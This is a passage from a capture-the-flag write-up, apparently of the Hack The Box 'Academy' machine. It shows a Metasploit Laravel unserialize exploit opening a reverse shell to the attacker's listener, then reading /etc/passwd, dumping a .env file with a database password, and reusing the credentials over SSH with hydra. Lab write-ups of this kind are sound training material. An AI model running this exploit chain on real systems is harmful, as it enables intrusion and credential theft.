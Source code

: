     :::text
    msf5 exploit(unix/http/laravel_token_unserialize_exec) > show options

    Module options (exploit/unix/http/laravel_token_unserialize_exec):

      Name       Current Setting                               Required  Description
      ----       ---------------                               --------  -----------
      APP_KEY    dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=  no        The base64 encoded APP_KEY string from the .env file
      Proxies                                                  no        A proxy chain of format type:host:port[,type:host:port][...]
      RHOSTS     10.129.39.166                                 yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
      RPORT      80                                            yes       The target port (TCP)
      SSL        false                                         no        Negotiate SSL/TLS for outgoing connections
      TARGETURI  /                                             yes       Path to target webapp
      VHOST      dev-staging-01.academy.htb                    no        HTTP server virtual host


    msf5 exploit(unix/http/laravel_token_unserialize_exec) > run

    [*] Started reverse TCP handler on 10.10.14.20:4444
    [*] Command shell session 3 opened (10.10.14.20:4444 -> 10.129.39.166:36996) at 2020-11-11 04:11:10 -0500

    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)

## Foothold

We start enumerating and found a few credentials sets for the database. We also
extract the users list from `/etc/passwd` and run the retrieved creds against the
SSH service using hydra. The password stored in `acedemy/.env` allow us to
connect as `cry0l1t3` using SSH and grab the user flag.


    :::text
    cat ls ../../academy/.env
    APP_NAME=Laravel
    APP_ENV=local
    APP_KEY=base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
    APP_DEBUG=false
    APP_URL=http://localhost

    LOG_CHANNEL=stack

    DB_CONNECTION=mysql
    DB_HOST=127.0.0.1
    DB_PORT=3306
    DB_DATABASE=academy
    DB_USERNAME=dev
    DB_PASSWORD=mySup3rP4s5w0rd!!

    BROADCAST_DRIVER=log
    CACHE_DRIVER=file
    SESSION_DRIVER=file

